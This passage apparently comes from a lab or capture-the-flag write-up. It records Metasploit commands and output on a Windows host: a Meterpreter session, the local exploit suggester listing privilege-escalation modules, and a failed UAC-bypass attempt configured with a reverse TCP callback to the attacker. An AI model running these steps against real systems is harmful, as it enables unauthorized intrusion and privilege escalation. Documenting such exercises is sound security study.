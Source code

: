 ```
[*] Sending stage (200262 bytes) to 192.168.240.80
[*] Meterpreter session 1 opened (10.0.200.2:5555 -> 192.168.240.80:57639) at 2020-11-22 01:47:30 +0800

meterpreter >
```

Right now, I'm `NT AUTHORITY\LOCAL SERVICE` and I need to get `NT AUTHORITY\SYSTEM`. To achieve that, here's come privilege escalation.  

I do some digging and found module `post/multi/recon/local_exploit_suggester`. This module suggested local meterpreter exploits that can be used. I ran `background` and `use post/multi/recon/local_exploit_suggester`. I configured it with session 1 and ran the module.

```
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 192.168.240.80 - Collecting local exploits for x64/windows...
[*] 192.168.240.80 - 20 exploit checks are being tried...
[+] 192.168.240.80 - exploit/windows/local/bypassuac_dotnet_profiler: The target appears to be vulnerable.
[+] 192.168.240.80 - exploit/windows/local/bypassuac_sdclt: The target appears to be vulnerable.
[+] 192.168.240.80 - exploit/windows/local/cve_2019_1458_wizardopium: The target appears to be vulnerable.
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 192.168.240.80 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 192.168.240.80 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[*] Post module execution completed
```

I give a try to `exploit/windows/local/bypassuac_dotnet_profiler`.

```
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/bypassuac_dotnet_profiler
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/bypassuac_dotnet_profiler) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/bypassuac_dotnet_profiler) > set LHOST 10.0.200.2
LHOST => 10.0.200.2
msf6 exploit(windows/local/bypassuac_dotnet_profiler) > set LPORT 6666
LPORT => 6666
msf6 exploit(windows/local/bypassuac_dotnet_profiler) > run

[*] Started reverse TCP handler on 10.0.200.2:6666 
[*] UAC is Enabled, checking level...
[-] Exploit aborted due to failure: no-access: Not in admins group, cannot escalate with this module
[*] Exploit completed, but no session was created.
```
